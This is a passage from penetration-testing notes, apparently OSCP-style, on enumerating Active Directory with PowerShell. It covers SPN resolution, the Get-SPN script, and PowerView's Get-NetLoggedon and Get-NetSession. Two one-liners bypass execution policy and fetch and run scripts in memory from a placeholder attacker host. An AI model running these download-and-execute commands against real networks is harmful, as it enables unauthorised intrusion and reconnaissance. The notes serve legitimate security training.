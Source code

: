 ````
    {
        $prop
        Foreach($hostName in ((($prop.serviceprincipalname -split “/”)[1]) -split “:”)[0])
        {
        Resolve-DnsName -Name $hostName
        }
    }
Write-Host “----------------”
}
````
Note that we can also use the *Get-SPN* script (<https://github.com/EmpireProject/Empire/blob/master/data/module_source/situational_awareness/network/Get-SPN.ps1>):

````
powershell.exe -exec Bypass -noexit -C “IEX (New-Object Net.WebClient).DownloadString(‘http://<kali_IP>:<port>/Get-SPN.ps1’);Get-SPN -type service -search ‘*’”
`````


## PowerView

PowerView is a PowerShell script which is part of the PowerShell Empire framework (<https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1>). 
The tool contains many functions, but we will focus on two in particular:

- *Get-NetLoggedon*: invokes *NetWkstaUserEnum* (requires administrative permissions) to return a list of all users logged on to a target workstation.
- *Get-NetSession*: invokes *NetSessionEnum* (can be used from a regular domain user) to return a list of active user sessions on servers (such as fileservers or DC).

First, we must must either transfer it and import it on the target or download it and execute it in memory (start a web server first):

````
Import-Module .\PowerView.ps1
powershell.exe -exec Bypass -noexit -C “IEX (New-Object Net.WebClient).DownloadString(‘http://<kali_IP>:<port>/powerview.ps1’);Get-NetLoggedon -ComputerName <computername>”
````

**Enumerate logged-in users** (require admin privs)

````
Get-NetLoggedon -ComputerName <computername>
`````

**Enumerate active sessions**

````
Get-NetSession -ComputerName <computername>
````
Here we would tipically target a DC or server. 
The sessions are performed agaisnt the DC when a user logs on, but they originate from a specific workstation or server, which is what we are attempting to enumerate.


# 3. AD authentication
We can use the information we discovered by enumerating users accouts, group memberships and registered SPNs to compromise AD.\\
AD uses mainly 2 authentication protocols:

